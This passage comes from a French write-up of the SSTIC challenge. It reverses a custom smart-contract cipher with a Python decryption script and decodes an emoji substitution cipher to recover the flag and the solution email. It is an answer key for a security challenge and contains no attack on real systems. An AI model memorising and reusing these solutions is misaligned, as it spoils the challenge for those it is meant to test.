    res = ((contract_value ^ xor_mod_squa) << 32) | ((contract_value ^ xor_mod_squa) << 160)
    res |= re_root << 96
    return res
```

Cet entier de 256 bits est composé:
 * D'un compteur de 32 bits (bits 0-32), initialisé à 0 et incrémenté à chaque appel de la fonction `0xb5b6d2a8`
 * D'un entier de 64 bits (bits 32-96), résultat du XOR entre le seed et la valeur 0x4d30442053515541 (jamais modifié)
 * D'un entier de 64 bits (bits 96-160), initialisé à 0x5245205230305421 (jamais modifié)
 * D'un entier de 64 bits (bits 160-224), résultat du XOR entre le seed et la valeur 0x4d30442053515541 (modifié à chaque appel de la fonction `0xb5b6d2a8`)

L'utilisation du stockage permet conserver des valeurs après exécution d'un smart contract.

#### Chiffrement d'un message (smart contract)

La fonction `0xb5b6d2a8` permet le chiffrement d'un entier de 64 bits. Cette fonction prend en paramètre l'entier 
à chiffrer, ayant déjà été modifié au préalable par les fonctions de chiffrement implémentées dans le binaire 
(bitflip, échange des valeurs du tableau et XOR).

Cette fonction prend également en paramètre un entier encodé sur 8 bits, lu sur `/dev/urandom`, qui ne dépends donc pas du PRNG implémenté 
dans le binaire.

La fonction `0xb5b6d2a8` est appelée 32 fois, pour chiffrer les 32 entiers de 64 bits composant le message de 256 octets.

Elle réalise les opérations décrites ci-dessous.

##### XOR 1

L'entier de 64 bits, encodé dans l'entier de 256 bits (bits 160-224), stocké à l'adresse 0, est utilisé comme argument 
d'une fonction de hash.

La valeur retournée par cette fonction est utilisée comme clé de XOR avec l'entier de 64 bits à chiffrer.
Cette opération est réversible, car la première valeur passée à la fonction de hash, initialisée dans 
le constructeur, est connue (XOR entre le seed et la valeur 0x4d30442053515541).

L'implémentation de la fonction de hash en python est la suivante:

```python
def compute_hash(self, h_value):
    for j in range(0, 64):
        output = (h_value & 0x5245205230305421)
        for j2 in range(1, 64):
            output = output ^ ((h_value & 0x5245205230305421) >> j2)
        h_value = (((output << 63) | (((h_value)) >> 1)) & (0xffffffffffffffff))
    return h_value
```

##### XOR 2

L'entier de 8 bits, passé en paramètre à la fonction `0xb5b6d2a8`, est aussi utilisé pour 
dériver une clé de XOR de 64 bits, utilisé pour chiffrer l'entier de 64 bits.

L'implémentation de la dérivation de la clé de XOR est la suivante:

```python
def build_xor_key(self, contract_byte):
    key = 0
    for j in range(0,8):
        key |= (contract_byte) << (j << 3)
        contract_byte = ROL(contract_byte, 1, 8)
    return key
```

L'entier de 8 bits devra être bruteforcé, car celui-ci n'est pas généré par le PRNG.

##### Polynôme de seconds degrés modulo 2<sup>N</sup>

L'entier de 64 bits résultant des opérations précédentes est utilisé comme paramètre d'un polynôme 
de seconds degrés: ax<sup>2</sup>+ bx + c modulo 128.

Les valeurs de A, B et C sont fixes:
 * A = 0x854e9fb4699ed8f22fd89ebe3f17f7f6 # 128 bits
 * B = 0xd677105721b51a080288a52f7aa48517 # 128 bits
 * C = 0

Le résultat du polynôme, encodé sur 128 bits, est ensuite stocké dans la mémoire du contrat, c'est cette valeur qui est disponible dans le fichier `contract_memory.txt`.

Le papier Complete solving the quadratic equation mod 2<sup>n</sup> (https://arxiv.org/pdf/1711.03621.pdf),
propose un algorithme qui permet de résoudre l'équation ax<sup>2</sup> + bx + c modulo 2<sup>N</sup> = 0, 
avec :

 * p2(a) > 0
 * p2(b) = 0
 
où p2(a) correspond à la plus grande puissance de 2 divisant a.

Les valeurs de A et B utilisés par le smart contract respectent ces conditions, A étant paire, B étant impaire.

La fonction `solve_quadratic_equation_mod_n` implémente l'algorithme proposé dans le papier, et permet ainsi 
de retrouver la valeur de X, encodée sur 64-bits, permettant de résoudre l'équation.

### Déchiffrement

L'ensemble des opérations de chiffrement étant identifiés comme réversibles, le script suivant permet de retrouver
le message envoyé par FraiseGlacée, à partir du fichier `contract_memory.txt`:

```python
#!/usr/bin/env python3
from Crypto.Hash import keccak
import struct
import sys

def ROR(x, n, bits = 32):
    mask = (2**n) - 1
    mask_bits = x & mask
    return (x >> n) | (mask_bits << (bits - n))
 
def ROL(x, n, bits = 32):
    return ROR(x, bits - n, bits)

def binary_to_int(bit_array):
    res = 0
    for i in range(0, len(bit_array)):
        res |= (bit_array[i] << i) 
    return res

def highest_power_of_two(x):
    i = 0
    while x & 1 == 0:
        x >>= 1
        i += 1
    return i

mask_256 = 2**256-1
mask_128 = 2**128-1
mask_64 = 2**64-1
mask_32 = 2**32-1
mask_8 = 2**8-1

class AlaideCipher(object):

    def __init__(self, memory_file_path):
        self.contract_memory = {}
        self.seed = 0
        with open(memory_file_path, 'r') as f:
            for line in f:
                if line.startswith('Memory slot'):
                    tokens = line.split(' ')
                    if len(tokens) == 5:
                        self.contract_memory[int(tokens[2], 16)] = int(tokens[4],16)
        self.output = None
        self.invert_func_constructor()
        self.xor_hash = self.build_xor_hash()
        self.xor_prng = self.build_xor_qword_table()
        self.bitflip_table = self.build_bitflip_table()
        self.swap_index = self.build_swap_index_table()

    def build_xor_qword_table(self):
        t = [0xc9c5032724e9488a, 0xdf5e047488d9b088, 0x573d11fbd9edccb8, 0xf0df4f17f6b9a0f2, 
            0xe72c7a5d270e8d9e, 0xdb35ef5c16d97f14, 0x46f788162474e74d, 0xd1a4f97c583b681a, 
            0xdd89f3fbab633d07, 0xbbf44beb08a09f3d, 0x8510019582d0238d, 0x12e0aac60d84eab2, 
            0xea9cd675a7bd39b5, 0x8ade103b3ad91825, 0x87ae0734f03c1b16, 0x70b177b255029440, 
            0xda9d7ba675914fb0, 0xfbf4344a28020d3d, 0xf0a3f936583a27c4, 0x90bd50e3f8795ff4, 
            0x5def899da5ecb6db, 0x9180628960520b84, 0x194abcd56426e72c, 0x4ab2805d0cf267eb, 
            0xb2b7f3627b203384, 0x90506d9e8256e5fa, 0xaa9fba88519fa0ce, 0x454356ba804c583e, 
            0x98241768c093d034, 0x8607259ac40eca39, 0xd891c496729af0d6, 0x97bbd6588154582e]
        return t

    def build_bitflip_table(self):
        bit_table = []
        for i in range(0,32):
            qword_mask = 0
            for j in range(0,8):
                bit_value = (i & (1 << j)) >> j
                bit_xor = bit_value << 7 # used to xor one byte
                qword_mask |= (bit_xor) << (j * 8)
            bit_table.append(qword_mask)
        return bit_table


    def build_xor_hash(self):
        input_hash = self.seed ^ 0x4d30442053515541
        hashes = []
        for i in range(0, 32):
            input_hash = self.compute_hash(input_hash)
            hashes.append(input_hash)
        return hashes

    def compute_hash(self, h_value):
        for j in range(0, 64):
            output = (h_value & 0x5245205230305421)
            for j2 in range(1, 64):
                output = output ^ ((h_value & 0x5245205230305421) >> j2)
            h_value = (((output << 63) | (((h_value)) >> 1)) & (0xffffffffffffffff))
        return h_value
    
    def build_xor_key(self, contract_byte):
        key = 0
        for j in range(0,8):
            key |= (contract_byte) << (j << 3)
            contract_byte = ROL(contract_byte, 1, 8)
        return key

    def build_swap_index_table(self):
        input = [i for i in range(0,32)]
        prng_swap = [0x19,0x13,0x7,0x14,0x11,0x12,0x6,0x15,0x4,0xa,0xd,0x13,0xe,0xf,0xb,0x0,0xa,0x3,0x9,0xb,0x5,0x2,0x2,0x7,0x0,0x2,0x1,0x2,0x2,0x0,0x1]
        assert(len(prng_swap) == 31)
        assert(len(input) == 32)
        i = 31
        while i > 0:
            tmp = input[i]
            input[i] = input[prng_swap[31-i]]
            input[prng_swap[31-i]] = tmp
            i -= 1
        return input

    def invert_func_constructor(self):
        xor_mod_squa = 0x4d30442053515541 # 'M0D SQUA'
        re_root = 0x5245205230305421 # 'RE R00T!'
        s = self.contract_memory[0]
        self.seed = ((s >> 32) & mask_64) ^ xor_mod_squa
        assert(((s >> 96) & mask_64) == re_root)

    def get_key(self, i):
        hash_input = b"\x00" * (0x20-4) + struct.pack(">I", i) + b"\x00"*(0x20-1) + b"\x01"
        key = int(keccak.new(digest_bits=256).update(hash_input).hexdigest(), 16)
        return key

    def solve_quadratic_equation_mod_n(self, a, b, c, n):
        self.output = [0]*n
        self._solve_quadratic_equation_mod_n(a, b, c, n, 0)
        return binary_to_int(self.output)

    def _solve_quadratic_equation_mod_n(self, a, b, c, n, i):
        if i == 64:
            return
        if highest_power_of_two(c) > 0:
            self.output[i] = 0
            self._solve_quadratic_equation_mod_n((2*a), b, c // 2, n-1, i+1)
        else:
            self.output[i] = 1
            self._solve_quadratic_equation_mod_n((2 * a), (2*a + b), ((a//2) + (b//2) + (c//2) + 1), n-1, i+1)

    def decrypyt(self):
        output = {}
        for i in range(0, 32):
            memory_slot = self.contract_memory[self.get_key(i)]
            A = 0x854e9fb4699ed8f22fd89ebe3f17f7f6 # 128 bit
            B = 0xd677105721b51a080288a52f7aa48517 # 128 bit
            C = -memory_slot
            X = self.solve_quadratic_equation_mod_n(A, B, C, 64)
            X = X ^ self.xor_hash[i]
            X = X ^ self.xor_prng[i]
            pos = self.swap_index[i]
            X = X ^ self.bitflip_table[pos]
            for contract_byte in range(0,256):
                xor_key = self.build_xor_key(contract_byte)
                final = X ^ xor_key
                # Test if value is encoded on 7 bits
                if final & 0x7f7f7f7f7f7f7f7f == final:
                    final_str = struct.pack("<Q", final)
                    output[pos] = final
        final_str = b''
        for key in sorted(output):
            final_str += struct.pack("<Q", output[key])
        print(final_str)

if __name__ == '__main__':
    if len(sys.argv) == 2:
        contract_path = sys.argv[1]
    else:
        contract_path = '../contract_memory.txt'
    alaide = AlaideCipher(contract_path)
    alaide.decrypyt()
```

L'exécution du script permet d'obtenir la chaine suivante:

>NO WAY! Personne n'arrivera jamais a dechiffrer ce message sans mon programme de dechiffrement. Je m'en sers donc de pense-bete xD. La passphrase de mon export megolm est SSTIC{825145b95c18a865b78f750e153fcc1767f3954e9d629c781ef9150803f3f80f}.


## Étape 7

La passphrase permet d'importer les clés megolm de FraiseGlacée, et d'accéder au channel #potager,
où les membres du groupe Sivi-Ha-Kerez utilisent des smileys de différents fruits pour encoder les 
27 lettres de l'alphabet:


On suppose que le message comprenant le caractère arobase contient l'adresse email au format `@challenge.sstic.org`,
permettant la résolution du challenge:

@&#127804;&#127809;&#127802;&#127813;&#127813;&#127806;&#127815;&#127808;&#127806;.&#127820;&#127820;&#127821;&#127810;&#127804;.&#127816;&#127819;&#127808;

Par conséquent:

 * &#127804; : `c`
 * &#127809; : `h`
 * &#127802; : `a`
 * &#127813; : `l`
 * ...

Un copié-collé de la conversation à base de smiley dans un fichier texte permet d'itérer sur chaque caractère unicode représentant
un smiley, et de substituer sa valeur avec son équivalent dans l'alphabet.

L'ajout d'entrées dans la table de substitution se fera au fur et à mesure via le script suivant:

```python
#!/usr/bin/env python3

substitution_table = {}

# sstic
substitution_table[0x1f34c] = 's'
substitution_table[0x1f34d] = 't'
substitution_table[0x1f342] = 'i'
substitution_table[0x1f33c] = 'c'

# org
substitution_table[0x1f348]='o'
substitution_table[0x1f34b]='r'
substitution_table[0x1f340]='g'

# challenge
substitution_table[0x1f341] = 'h'
substitution_table[0x1f33a] = 'a'
substitution_table[0x1f345] = 'l'
substitution_table[0x1f33e] = 'e'
substitution_table[0x1f347] = 'n'

substitution_table[0x1f349] = 'p'
substitution_table[0x1f34f] = 'v'
substitution_table[0x1f346] = 'm'
substitution_table[0x1f34e] = 'u'
substitution_table[0x1f353] = 'z'
substitution_table[0x1f33b] = 'b'
substitution_table[0x1f33d] = 'd'
substitution_table[0x1f343] = 'j'
substitution_table[0x1f33f] = 'f'
substitution_table[0x1f351] = 'x'
substitution_table[0x1f352] = 'y'
substitution_table[0x1f34a] = 'q'

if __name__ == '__main__':

	with open('potager.txt', 'r') as f:
		content = f.read()
		text = ""
		for c in content:
			if ord(c) in substitution_table:
				text += substitution_table[ord(c)]
			elif ord(c) < 0xffff:
				text += c
			else:
				text += '[?={:x}]'.format(ord(c))
		print(text)
```

L'exécution du script donne la sortie suivante:

```
PommeDamour
vous arrivez a lire mon message ?
FraiseGlacée
c'est bon pour moi
CitronPréssé
good
Licœur
bon, comme je vous le disais irl, il faut organiser notre prochaine action coup de poing !
CitronPréssé
tu parles du sabotage des brasseries avant le novemberfest ?
FraiseGlacée
enfin ! je n'en peux plus de voir des gens boire cette immonde boisson
Licœur
ca va etre un gros coup :)
pour nous organiser, envoyez moi vos disponibilites par mail
FraiseGlacée
c'est quoi ton adresse deja ?
Licœur
hastvscfbdfomyydjglhidzrsvaclhxn@challenge.sstic.org
Houpez
[?=1f37a]
Licœur
intrusssssssssssssssss
FraiseGlacée
code rouge
!‽!
CitronPréssé
mayday
```

Super, l'adresse email `hastvscfbdfomyydjglhidzrsvaclhxn@challenge.sstic.org` permet de valider le challenge!

Un grand merci aux créateurs du challenge pour leur imagination, et pour le temps qu'ils ont consacré à sa réalisation.
